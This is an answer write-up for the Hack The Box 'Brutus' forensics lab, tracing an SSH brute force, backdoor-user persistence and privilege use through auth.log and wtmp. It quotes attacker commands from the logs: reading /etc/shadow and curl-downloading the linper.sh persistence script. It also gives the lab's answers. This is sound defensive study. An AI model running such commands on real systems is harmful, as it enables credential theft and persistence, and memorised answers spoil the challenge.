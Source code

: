 # Brutus (Very Easy)

<img src="https://labs.hackthebox.com/storage/challenges/b7bb35b9c6ca2aee2df08cf09d7016c2.png" alt="logo" width="75"/>

## Scenario

In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

## Analysis

Checking the file types:
```
auth.log:   ASCII text
wtmp:       data
```

### Initial Access

Checking the auth log and geting the logs related to attacker and its activities:
Logs for bruteforcing into multiple users.
```
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Invalid user admin from 65.2.161.68 port 46380
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Received disconnect from 65.2.161.68 port 46380:11: Bye Bye [preauth]
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Disconnected from invalid user admin 65.2.161.68 port 46380 [preauth]
Mar  6 06:31:31 ip-172-31-35-28 sshd[620]: error: beginning MaxStartups throttling
Mar  6 06:31:31 ip-172-31-35-28 sshd[620]: drop connection #10 from [65.2.161.68]:46482 on [172.31.35.28]:22 past MaxStartups
Mar  6 06:31:31 ip-172-31-35-28 sshd[2327]: Invalid user admin from 65.2.161.68 port 46392
Mar  6 06:31:31 ip-172-31-35-28 sshd[2331]: pam_unix(sshd:auth): check pass; user unknown
Mar  6 06:31:31 ip-172-31-35-28 sshd[2331]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68
Mar  6 06:31:31 ip-172-31-35-28 sshd[2330]: Invalid user admin from 65.2.161.68 port 46422
Mar  6 06:31:31 ip-172-31-35-28 sshd[2337]: Invalid user admin from 65.2.161.68 port 46498
Mar  6 06:31:31 ip-172-31-35-28 sshd[2328]: Invalid user admin from 65.2.161.68 port 46390
Mar  6 06:31:32 ip-172-31-35-28 sshd[2357]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68  user=backup
Mar  6 06:31:35 ip-172-31-35-28 sshd[2377]: Invalid user server_adm from 65.2.161.68 port 46684
Mar  6 06:31:39 ip-172-31-35-28 sshd[2396]: Failed password for invalid user svc_account from 65.2.161.68 port 46800 ssh2
```

Finally they were able to login as root.
```
...
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
```

Checking the logs from the `wtmp`:
```
$ sudo last -F -f ./wtmp
cyberjun pts/1        65.2.161.68      Wed Mar  6 06:37:35 2024   gone - no logout
root     pts/1        65.2.161.68      Wed Mar  6 06:32:45 2024 - Wed Mar  6 06:37:24 2024  (00:04)
root     pts/0        203.101.190.9    Wed Mar  6 06:19:55 2024   gone - no logout
reboot   system boot  6.2.0-1018-aws   Wed Mar  6 06:17:15 2024   still running
root     pts/1        203.101.190.9    Sun Feb 11 10:54:27 2024 - Sun Feb 11 11:08:04 2024  (00:13)
root     pts/1        203.101.190.9    Sun Feb 11 10:41:11 2024 - Sun Feb 11 10:41:46 2024  (00:00)
root     pts/0        203.101.190.9    Sun Feb 11 10:33:49 2024 - Sun Feb 11 11:08:04 2024  (00:34)
root     pts/0        203.101.190.9    Thu Jan 25 11:15:40 2024 - Thu Jan 25 12:34:34 2024  (01:18)
ubuntu   pts/0        203.101.190.9    Thu Jan 25 11:13:58 2024 - Thu Jan 25 11:15:12 2024  (00:01)
reboot   system boot  6.2.0-1017-aws   Thu Jan 25 11:12:17 2024 - Sun Feb 11 11:09:18 2024 (16+23:57)

wtmp begins Thu Jan 25 11:12:17 2024
```

Looks like the attacker started the session at `Wed Mar 6 06:32:45 2024` from their IP `65.2.161.68`.

Based on the logs, we can now answer some questions.

---
**Task 1: Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?**
> 65.2.161.68

**Task 2: The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?**
> root

**Task 3: Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?**
> 2024-03-06 06:32:45

**Task 4: SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?**
> 37
---

### Attack

Looks like they create new group and user and also give root access to that user:
```
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/gshadow: name=cyberjunkie
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: new group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
Mar  6 06:34:31 ip-172-31-35-28 chfn[2605]: changed user 'cyberjunkie' information
...
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
...
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Received disconnect from 65.2.161.68 port 53184:11: disconnected by user
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Disconnected from user root 65.2.161.68 port 53184
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session closed for user root
```

Searching online about this MITRE ATT&CK sub-technique for creating a new user and making them root, we get https://attack.mitre.org/techniques/T1136/001/. Looks like they ended their session at `06:37:24`.

Attack then moved to starting a new session as `cyberjunkie` to access that `/etc/shadow` file and other activies.
```
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: Accepted password for cyberjunkie from 65.2.161.68 port 43260 ssh2
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: pam_unix(sshd:session): session opened for user cyberjunkie(uid=1002) by (uid=0)
Mar  6 06:37:57 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/cat /etc/shadow
...
Mar  6 06:37:57 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
...
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

Answering the questions based on data collected.

---

**Task 5: The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?**
> cyberjunkie

**Task 6: What is the MITRE ATT&CK sub-technique ID used for persistence?**
> T1136.001

**Task 7: How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)**
> 279

**Task 8: The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?**
> /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

---
